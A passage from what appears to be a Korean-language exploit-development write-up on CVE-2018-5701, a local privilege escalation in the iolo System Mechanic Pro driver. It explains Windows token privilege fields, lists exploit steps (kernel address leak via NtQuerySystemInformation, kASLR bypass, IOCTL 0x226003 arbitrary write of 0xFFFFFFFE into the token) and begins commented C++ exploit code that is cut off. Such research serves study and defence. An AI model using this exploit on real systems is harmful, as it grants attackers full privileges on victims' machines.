 `Present` : 토큰에 대한 현재 권한

`Enable` : 토큰에 대해 활성화된 모든 권한. `SeSinglePrivilegeCheck`를 전달하려면 이 비트 마스크에서 권한을 활성화해야 한다.

`EnableByDefault` : 토큰의 초기 상태

`Present` 및 `Enabled` 항목을 `0xFFFFFFFF` 값으로 overwrite 하면 비트 마스크의 모든 비트와 권한을 활성화할 수 있다. 따라서 `0xFFFFFFFE` 를 쓰는 것이 우리에게 필요한 전부이다.

# Exploitation

exploit은 다음 단계를 수행한다.

1. 현재 프로세스의 토큰을 연다. - 나중에 커널 주소를 찾을 때 사용된다.
2. `NtQuerySystemInformation` API로 핸들이 있는 모든 객체의 커널 주소를 leak 한다.
3. 현재 프로세스에서 토큰 핸들을 찾고 [kASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization#Microsoft_Windows)을 우회해 커널 주소를 가져온다.
4. `0xFFFFFFFE`을 반환하는 취약한 드라이버에 대한 IOCTL 요청 코드를 작성하고 `Present` 필드를 가리키도록 출력 버퍼 주소를 설정한다.
5. 같은 방법으로 `Enabled` 및 `EnabledByDefault` 필드를 `0xFFFFFFFE`로 overwrite 한다. 
6. 위에서 부여한 토큰 권한을 상속하는 자식 프로세스를 생성한다.

항상 그랬듯이 주석이 달린 C++ exploit code는 여기 또는 [Github](https://github.com/VoidSec/Exploit-Development/blob/master/windows/x64/kernel/iolo_System_Mechanic_Pro_v.15.5.0.61/iolo_System_Mechanic_Pro_v.15.5.0.61.cpp) 페이지에서 찾을 수 있다.

```cpp
/*
Exploit title:      iolo System Mechanic Pro v. <= 15.5.0.61 - Arbitrary Write Local Privilege Escalation (LPE)
Exploit Authors:    Federico Lagrasta aka last - https://blog.notso.pro/
                    Paolo Stagno aka VoidSec - voidsec@voidsec.com - https://voidsec.com
CVE:                CVE-2018-5701
Date:               28/03/2021
Vendor Homepage:    https://www.iolo.com/
Download:           https://www.iolo.com/products/system-mechanic-ultimate-defense/
                    https://mega.nz/file/xJgz0QYA#zy0ynELGQG8L_VAFKQeTOK3b6hp4dka7QWKWal9Lo6E
Version:            v.15.5.0.61
Tested on:          Windows 10 Pro x64 v.1903 Build 18362.30
Category:           local exploit
Platform:           windows
*/

#include <iostream>
#include <windows.h>
#include <winternl.h>
#include <tlhelp32.h>
#include <algorithm>

#define IOCTL_CODE 0x226003 // IOCTL_CODE value, used to reach the vulnerable function (taken from IDA)
#define SystemHandleInformation 0x10
#define SystemHandleInformationSize 1024 * 1024 * 2

// define the buffer structure which will be sent to the vulnerable driver
typedef struct Exploit
{
    uint32_t Field1_1;  // must be 0x8 as this index will be used to calculate the address in a jump table and trigger the vulnerable function
    uint32_t Field1_2;  // "padding" can be anything
    int *Field2;        // must be a pointer that, once dereferenced, cotains 0
    void *Field3;       // points to the adrress that will be overwritten by 0xfffffffe - Arbitrary Write
};

// define a pointer to the native function 'NtQuerySystemInformation'
using pNtQuerySystemInformation = NTSTATUS(WINAPI *)(
```